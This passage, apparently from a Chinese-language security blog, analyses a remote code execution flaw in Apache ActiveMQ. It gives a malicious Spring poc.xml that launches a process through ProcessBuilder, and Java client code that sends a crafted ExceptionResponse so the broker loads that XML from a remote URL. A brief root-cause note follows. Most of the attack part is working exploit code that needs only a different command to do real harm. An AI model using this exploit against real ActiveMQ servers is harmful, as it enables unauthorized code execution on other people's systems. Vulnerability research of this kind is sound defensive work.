 ![image-20240106123012320](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240106123012320.png)

#### poc.xml

```java
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

还有一种直接传入的方法，只需重写`ClassPathXmlApplicationContext`即可

```java
ConnectionFactory connectionFactory = new
ActiveMQConnectionFactory("tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
ActiveMQSession session = (ActiveMQSession) connection.createSession(false,Session.AUTO_ACKNOWLEDGE);
ExceptionResponse exceptionResponse = new ExceptionResponse();

exceptionResponse.setException(new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml"));

session.syncSendPacket(exceptionResponse);

connection.close();
```

从syncSendPacket逐层调用，最终到达request方法中， asyncRequest是序列化，然后再getResult服务端又进行反序列

![image-20240106130420242](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240106130420242.png)

总结：

```java
通过修复地方就可以看到漏洞原因，任意类的有参实例化，导致触发了漏洞
org.springframework.context.support;ClassPathXmlApplicationContext  又因为项目中有springboot依赖，导致触发加载远程xml
```



# 2024.8.8

